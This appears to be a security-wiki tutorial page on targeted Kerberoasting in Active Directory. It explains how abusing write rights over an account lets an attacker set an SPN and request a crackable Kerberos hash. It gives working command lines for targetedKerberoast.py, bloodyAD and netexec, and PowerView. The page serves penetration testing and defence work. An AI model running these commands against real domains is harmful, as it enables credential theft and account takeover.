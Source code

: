 ```yaml
---
authors: ShutdownRepo, sckdev, 0xblank
category: ad
---
```


# Targeted Kerberoasting

This abuse can be carried out when controlling an object that has a `GenericAll`, `GenericWrite`, `WriteProperty` or `Validated-SPN` over the target. A member of the [Account Operator](../builtins/security-groups) group usually has those permissions.

The attacker can add an SPN (`ServicePrincipalName`) to that account. Once the account has an SPN, it becomes vulnerable to [Kerberoasting](../kerberos/kerberoast.md). This technique is called Targeted Kerberoasting. 

::: tabs

=== UNIX-like

From UNIX-like systems, this can be done with [targetedKerberoast.py](https://github.com/ShutdownRepo/targetedKerberoast) (Python)

```bash
targetedKerberoast.py -v -d "$DC_HOST" -u "$USER" -p "$PASSWORD"
```

---
**Alternative 1:** Using [bloodyAD](https://github.com/CravateRouge/bloodyAD) and [netexec](https://github.com/Pennyw0rth/NetExec)

```
# Add a SPN to attribute to the targeted account
bloodyAD -d "$DOMAIN" --host "$DC_HOST" -u "$USER" -p "$PASSWORD" set object "$TARGET" servicePrincipalName -v 'http/anything'

nxc ldap "$DC_HOST" -d "$DOMAIN" -u "$USER" -H "$NThash" --kerberoasting kerberoastables.txt
```


=== Windows

From Windows machines, this can be achieved with [Set-DomainObject](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainObject/) and [Get-DomainSPNTicket](https://powersploit.readthedocs.io/en/latest/Recon/Get-DomainSPNTicket/) ([PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) module).

```bash
# Make sur that the target account has no SPN
Get-DomainUser 'victimuser' | Select serviceprincipalname

# Set the SPN
Set-DomainObject -Identity 'victimuser' -Set @{serviceprincipalname='nonexistent/BLAHBLAH'}

# Obtain a kerberoast hash
$User = Get-DomainUser 'victimuser'
$User | Get-DomainSPNTicket | fl

# Clear the SPNs of the target account
$User | Select serviceprincipalname
Set-DomainObject -Identity victimuser -Clear serviceprincipalname
```

:::


Once the Kerberoast hash is obtained, it can possibly be [cracked](../credentials/cracking.md) to recover the account's password if the password used is weak enough.
